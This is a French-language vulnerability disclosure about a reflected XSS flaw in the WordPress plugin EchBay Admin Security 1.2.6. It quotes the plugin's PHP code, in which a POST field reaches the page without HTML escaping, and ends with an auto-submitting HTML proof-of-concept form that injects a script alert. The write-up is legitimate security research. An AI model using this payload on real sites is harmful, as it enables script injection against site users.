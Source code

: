```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress EchBay Admin Security"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [EchBay Admin Security](https://wordpress.org/plugins/echbay-admin-security/) se présente de cette façon :

> If you run a WordPress website, you should absolutely use echbay-admin-security to secure it against hackers.
>
> Protect WP-Admin fixes a glaring security hole in the WordPress community: the well-known problem of the admin panel URL.
Everyone knows where the admin panel, and this includes hackers as well.
> 
> Protect WP-Admin helps solve this problem by allowing webmasters to setup PIN number or password for login page.
> 
> The plugin also comes with some access filters, allowing webmasters to restrict guest and registered users access to wp-admin, just in case you want some of your editors to log in the classic way.

La version testée est la 1.2.6 et date d'il y a 1 mois au moment de ces lignes.

## La vulnérabilité

Le script `eas.php` définie une classe comportant différentes méthodes, mais aussi différentes fonctions indépendantes :

```php
if (!class_exists('EAS_Actions_Module')) {                                                                             
    class EAS_Actions_Module                                                                                           
    {                                                                                                                  
        var $eb_plugin_data = '2222';                                                                                  
        public $optionName = '_eas_token_for_admin_url';                                                               
        public $optionGroup = 'eas-options-group';                                                                     
        public $defaultOptions = [];                                                                                   
        public $defaultNameOptions = [];                                                                               
        public $my_settings = [];                                                                                      
        public $plugin_page = 'echbay-admin-security';
--- snip ---
    function EBE_show_form_enter_pin($msg = '')                                                                        
    {                                                                                                                  
        ob_end_clean();                                                                                                
        $rand_iname = EAS_ARIA_REQUIRED[rand(0, count(EAS_ARIA_REQUIRED) - 1)];                                        
        $rand_ivalue = EAS_my_mdnam($rand_iname);                                                                      
                                                                                                                       
        if ($rand_iname == 'email') {                                                                                  
            $rand_ivalue .= '@' . $_SERVER['HTTP_HOST'];                                                               
        }                                                                                                              
                                                                                                                       
        $result = file_get_contents(__DIR__ . '/404.html', 1);                                                         
        $to = time() + rand(3000, 3600);                                                                               
        foreach ([                                                                                                     
            'iname' => EAS_HIDDEN_CAPTCHA,                                                                             
            'to' => $to,                                                                                               
            'token' => EAS_my_mdnam($to),                                                                              
            'sid' => substr(EAS_SESSION_ID, rand(0, strlen(EAS_SESSION_ID) - 6), 6),                                   
            'rand_iname' => $rand_iname,                                                                               
            'rand_ivalue' => $rand_ivalue,                                                                             
            'ebnonce' => isset($_POST['_ebnonce']) ? $_POST['_ebnonce'] : '',                                          
            'msg' => $msg,                                                                                             
            'base_url' => get_home_url(),                                                                              
        ] as $k => $v) {                                                                                               
        $result = str_replace('{' . $k . '}', $v, $result); }                                                          
        die($result);                                                                                                  
    }
```

La fonction `EBE_show_form_enter_pin` contient le code vulnérable. Elle va extraire le contenu du fichier `404.html` que voici :

```html
--- snip ---
<h2>Login security</h2>
{msg}
<form action="" method="post">
  <div style="position: absolute; left: -9999px; opacity: 0;">
    <input type="text" name="{iname}_name" value="" />
    <input type="email" name="{iname}_email" value="" />
    <input type="text" name="{iname}_phone" value="" />
    <input type="text" name="{iname}_address" value="" />
    <input type="text" name="{iname}_captcha" value="" />
    <input type="text" name="{iname}_sid" value="{sid}" aria-required="true" required />
    <input type="text" name="{iname}_to" value="{to}" aria-required="true" required />
    <input type="text" name="{iname}_token" value="{token}" aria-required="true" required />
    <input type="text" name="{iname}_fjs" value="" aria-required="true" required />
  </div>
  <div>
    <input type="text" name="_ebnonce" value="{ebnonce}" placeholder="Enter your PIN/ Password" autofocus aria-required="true" required /></div>
  <br>
  <div><button type="submit">Confirm</button></div>
  <br>
  <div><a href="{base_url}" style="text-decoration: none;">&larr; Back to homepage</a>
</div>
</form>
--- snip ---
```

On voit que ce code contient différentes entrées entre accolades, comme un langage de template, sauf qu'ici, c'est la fonction `EBE_show_form_enter_pin` qui se charge de remplacer les chaines une à une :

```php
foreach ([                                                                                                     
    'iname' => EAS_HIDDEN_CAPTCHA,                                                                             
    'to' => $to,                                                                                               
    'token' => EAS_my_mdnam($to),                                                                              
    'sid' => substr(EAS_SESSION_ID, rand(0, strlen(EAS_SESSION_ID) - 6), 6),                                   
    'rand_iname' => $rand_iname,                                                                               
    'rand_ivalue' => $rand_ivalue,                                                                             
    'ebnonce' => isset($_POST['_ebnonce']) ? $_POST['_ebnonce'] : '',                                          
    'msg' => $msg,                                                                                             
    'base_url' => get_home_url(),                                                                              
] as $k => $v) {                                                                                               
$result = str_replace('{' . $k . '}', $v, $result); }   
```

Et on remarque que `$_POST['_ebnonce']` remplace le placeholder `{ebnonce}` sans échappement préalable des caractères HTML.

La fonction est appelée depuis le code principal que je ne donnerais pas dans sa totalité en raison de sa longueur :

```php
else if (strpos($_SERVER['REQUEST_URI'], '/wp-login.php') !== false) {                                             
    $EAS_func = new EAS_Actions_Module();                                                                          
    $ebe_guest_token = get_option($EAS_func->optionName);                                                          
    if (empty($ebe_guest_token)) {                                                                                 
        $ebe_guest_token = $EAS_func->eb_plugin_data;                                                              
    }                                                                                                              
                                                                                                                   
    if ($_SERVER['REQUEST_METHOD'] == 'POST') {                                                                    
        if (isset($_POST['_ebnonce'])) {           
--- snip ---
            if ($has_value === 1 && $this_bot === false && $_POST['_ebnonce'] == $ebe_guest_token) {               
                $redirect_to = (isset($_GET['redirect_to']) ? $_GET['redirect_to'] : '');                          
                $confirm_to = get_home_url() . '/wp-login.php?ebe_token=' . EBE_md5_guest_token($ebe_guest_token); 
                if ($redirect_to != '') {                                                                          
                    $confirm_to .= '&redirect_to=' . urlencode($redirect_to); }                                    
                die(header('Location: ' . $confirm_to)); }                                                         
                else {                                                                                             
                    EBE_show_form_enter_pin('<p style="color: red;">PIN/ Password incorrect! Please try again...</p>');
                }
--- snip ---
```

Ce sera suffisant pour comprendre comment former notre PoC HTML :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/wp-login.php">
        <input type="hidden" name="_ebnonce" value="&quot;&gt;&lt;ScRiPt&gt;alert(&#x27;XSS&#x27;)&lt;/sCrIpT&gt;" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
